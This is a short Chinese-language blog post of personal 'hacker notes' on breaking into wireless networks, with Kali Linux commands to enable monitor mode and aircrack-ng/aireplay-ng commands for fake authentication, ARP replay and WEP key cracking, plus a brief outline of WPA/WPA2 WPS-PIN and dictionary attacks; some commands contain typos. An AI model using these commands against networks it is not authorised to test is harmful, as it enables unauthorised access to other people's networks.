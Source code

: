 ```yaml
---
title: '黑客笔记'
date: 2020-07-10
excerpt: 原来都犯法，还是别学了
permalink: /posts/2020/07/黑客笔记/
tags:
  - 安全
---
```


[toc]

## 网络入侵
### 1.1 前期准备
购买了Atheros 7291的无线网卡，插入到kali Linux上，执行以下命令启动网卡的启动监听模式：

    ifconfig wlan0 down
    airmon-ng check kill
    iwconfig wlan0 monitor #启动监听模式
    ifconfig wlan0 up

### 1.2 破解网络
####1.2.1 破解WEP秘钥
- 破解原理
  WEP网络发送的每一个包都经过加密形成Key Stream
  Key Stream由24bit的ramdom initializaiton vector(IV)+password生成。
- 攻击方式
  捕获网络上的包，如果没有包，就进行arp replay,迫使目标路由器和我们握手，从而捕获生成的握手包
    
	    # Fake Athentication Attack 0 一次
	    aireplay-ng --fakeauth 0 目标MAC -h 网卡MAC wlan0 
	    # arp reqyest replay
	    aireplay-ng --arpreplau 0 -b 目标mac -h 网卡mac wlan0
	    # 从捕获到的包中获取key
	    aircrack-ng arpreplay-01.cap
####1.2.2 破解WPA/WPA2秘钥
-  破解原理
1. 基于WPS特性
WPS允许客户端在没有密码的情况下连接到网络认证只使用了8位的pin码，所以暴力破解pin码
2. 字典破解
如果网络的WPS特性关闭，只能使用字典攻击了。并且默认来说WPS都是关闭的，字典破解是更常用的方式。
-  具体操作
###1.3 攻击方式拾遗
-  Deauthentication Attack
- APR request Replay Attack
